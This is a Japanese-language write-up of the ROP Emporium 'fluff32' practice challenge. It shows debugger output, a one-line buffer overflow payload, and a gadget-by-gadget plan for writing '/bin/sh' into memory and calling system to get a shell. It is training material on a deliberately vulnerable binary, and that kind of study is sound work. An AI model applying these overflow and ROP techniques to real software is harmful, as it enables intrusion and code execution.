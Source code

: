 ```
~/ctf/practice-pwn/ROP-Emporium/fluff32:yyy@(*｡˃̵ω ˂̵｡) < ./fluff32
fluff by ROP Emporium
32bits

You know changing these strings means I have to rewrite my solutions...
> hoge

Exiting
```

```
gdb-peda$ patto AFAA
AFAA found at offset: 44
```

```
gdb-peda$ i func
All defined functions:

Non-debugging symbols:
0x080483c0  _init
0x08048400  printf@plt
0x08048410  fgets@plt
0x08048420  puts@plt
0x08048430  system@plt
0x08048440  __libc_start_main@plt
0x08048450  setvbuf@plt
0x08048460  memset@plt
0x08048480  _start
0x080484b0  __x86.get_pc_thunk.bx
0x080484c0  deregister_tm_clones
0x080484f0  register_tm_clones
0x08048530  __do_global_dtors_aux
0x08048550  frame_dummy
0x0804857b  main
0x080485f6  pwnme
0x0804864c  usefulFunction
0x08048670  questionableGadgets
0x080486a0  __libc_csu_init
0x08048700  __libc_csu_fini
0x08048704  _fini
```

usefulFunctionに遷移させてみる

```shell
$ python -c 'print "A" * 44 + "\x4c\x86\x04\x08"' |./fluff32
fluff by ROP Emporium
32bits

You know changing these strings means I have to rewrite my solutions...
> exploit_err.py	exploit.py  flag.txt  fluff32  fluff32.dis  fluff32.zip  input.txt  memo  peda-session-fluff32.txt  ropgadget  writeup.md
zsh: done                                        python -c 'print "A" * 44 + "\x4c\x86\x04\x08"' |
zsh: illegal hardware instruction (core dumped)  ./fluff32
```

例によってlsするだけの関数になっているので、シェルを奪う

今回はquestionableGadgetsにあるGadgetをどう使うかが問題

```
gdb-peda$ disas questionableGadgets
Dump of assembler code for function questionableGadgets:
   0x08048670 <+0>:	pop    edi
   0x08048671 <+1>:	xor    edx,edx
   0x08048673 <+3>:	pop    esi
   0x08048674 <+4>:	mov    ebp,0xcafebabe
   0x08048679 <+9>:	ret    
   0x0804867a <+10>:	pop    esi
   0x0804867b <+11>:	xor    edx,ebx
   0x0804867d <+13>:	pop    ebp
   0x0804867e <+14>:	mov    edi,0xdeadbabe
   0x08048683 <+19>:	ret    
   0x08048684 <+20>:	mov    edi,0xdeadbeef
   0x08048689 <+25>:	xchg   edx,ecx
   0x0804868b <+27>:	pop    ebp
   0x0804868c <+28>:	mov    edx,0xdefaced0
   0x08048691 <+33>:	ret    
   0x08048692 <+34>:	pop    edi
   0x08048693 <+35>:	mov    DWORD PTR [ecx],edx
   0x08048695 <+37>:	pop    ebp
   0x08048696 <+38>:	pop    ebx
   0x08048697 <+39>:	xor    BYTE PTR [ecx],bl
   0x08048699 <+41>:	ret    
   0x0804869a <+42>:	xchg   ax,ax
   0x0804869c <+44>:	xchg   ax,ax
   0x0804869e <+46>:	xchg   ax,ax
End of assembler dump.
```

なんとかして/bin/shをsystemの引数として渡したい

注目するべきは `xchg  edx, ecx` と `mov  DWORD PTR [ecx], edx` で、ecxにbufferのアドレスを、edxに/binと/sh\x00を2回に分けて書き込めばいけそう

まず `pop ebx; ret` となるようなGadgetを探して、ebxにbufferのアドレスを格納しておく

その後、 `xor  edx, edx` でedxを初期化して、 `xor  edx, ebx` で `0となっているedx` と `bufferのアドレスが入ったebx` をxorすることで、edxにbufferのアドレスを格納する

そして、 `xchg  edx, ecx` を呼ぶことで、ecxにbufferのアドレスを書き込める

次に、edxに書き込みたい文字列を格納するには、ecxと同様に

1. `pop ebx; ret` でebxに格納したい文字列をebxに代入

2. `xor  edx, edx` でedxを0に初期化

3. `xor  edx, ebx` でedxに格納したい文字列を代入する


あとは、 `mov    DWORD PTR [ecx],edx` のところのGadgetを呼ぶだけ

ただし、 `xor  BYTE PTR [ecx], bl` があるので、ebxには0を入れて、値が変わらないようにしておく

```
~/ctf/practice-pwn/ROP-Emporium/fluff32:yyy@(*｡˃̵ω ˂̵｡) < python exploit.py
[+] Starting local process './fluff32': pid 12939
fluff by ROP Emporium
32bits

You know changing these strings means I have to rewrite my solutions..
[*] Switching to interactive mode
.
> $
$ cat flag.txt
ROPE{a_placeholder_32byte_flag!}
```
